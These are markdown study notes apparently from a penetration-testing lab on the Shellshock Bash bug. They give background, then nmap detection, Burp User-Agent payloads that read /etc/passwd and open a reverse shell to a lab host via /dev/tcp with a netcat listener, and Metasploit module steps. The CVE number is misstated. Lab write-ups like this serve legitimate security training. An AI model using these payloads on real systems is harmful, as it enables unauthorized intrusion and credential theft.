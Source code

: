 Linux vulnerabilities
#### shellshock
- Shellshock(CVE-2014-6217) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allows an attacker to execute remote arbitary commands via Bash,consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
- The shellshock vulnerabilities was discovered by Stephane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.
- Bash is a Nix shell that is part of the GNU project and is hte default shell for most linux distributions.
- The Shellshock vulnerability is caused by a vulnerability in Bash,whereby Bash mistakenly executes training commmands after a series of characters () { :; };
- This vulnerability only affects linux as Windows does not use utilize Bash as it is not a Nix based operating system.
- In the context of remote exploitation,Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI(Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the linux system,after which the output is displayed to the client.
#### shellshock Exploitation
- In order to exploit this vulnerability,you will need to locate an input vector or script that allows you to communicate with Bash.
- In the context of an Apache web server,we can utilize any legitimate CGI  scripts accessible on the web server.
- Whenever a CGI  script is executed,the web server will initiate a new process and run the CGI script with Bash.
- This vulnerabiity can be exploited both manually and automatically with the use of an MSF exploit module.
#### Lab
- nmap -sV 192.24.241.3 [ this shows the services]
- browse the ip 
- look the source ip.
- here we see  CGI script which is under / directory,so it is publicly accessible by 192.24.241.3/gettime.cgi
- nmap -sv 192.24.241.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" [ this will confirm the vulnerability ]
- Now capture the browser request in burp and send it to repeater.
- () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd' [ remove the User Agent and set it instead user agent ]
- move to anothe tab and start netcat listner [ nc -nvlp 1234 ]
- () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1'
- send the request
- this will give us a  shell in netcat listener
#### Metasploit
- service postgresql start
- msfconsole
- use exploit/multi/http/apache_mod_cgi_bash_env_exec
- set RHOSTS and TARGETURI
- run
- this give us meterpreter session
